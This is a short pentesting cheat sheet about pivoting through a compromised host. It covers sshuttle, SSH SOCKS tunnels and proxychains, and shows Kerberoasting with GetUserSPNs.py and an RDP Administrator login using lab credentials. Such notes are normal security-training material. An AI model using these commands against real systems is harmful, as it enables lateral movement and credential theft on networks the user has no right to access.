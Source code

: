 # Pivoting

## Situation:
- on a machine that allows access to 2 network interfaces that share a new network that wasn't available to you before

## How to pivot:
- have compromised a machine and have full access to it

### SSHUTTLE
```bash
sshuttle -r <username>@<target ip> <CIDR of new network> --ssh-cmd "ssh -i pivot"
```

### Proxychains
```bash
cat /etc/proxychains4.conf
```
- proxy list at the bottom: "socks4 127.0.0.1 9050"
```bash
ssh -f -N -D 9050 -i pivot <username>@<target ip>
```
- -f = backgrounds SSH
- -N = we dont want to execute commands(ideal for port forwarding)
- -D = bind port to:
+ established connection
#### Running commands on pivoted network
```bash
proxychains <command>
```
```bash
proxychains nmap -p88 10.10.10.255
```

## Attacking through proxychains
```bash
proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 10.10.10.255 -request
```
```bash
proxychains xfreerdp /u:Administrator /p:'Hacker321!' /v:10.10.10.255
```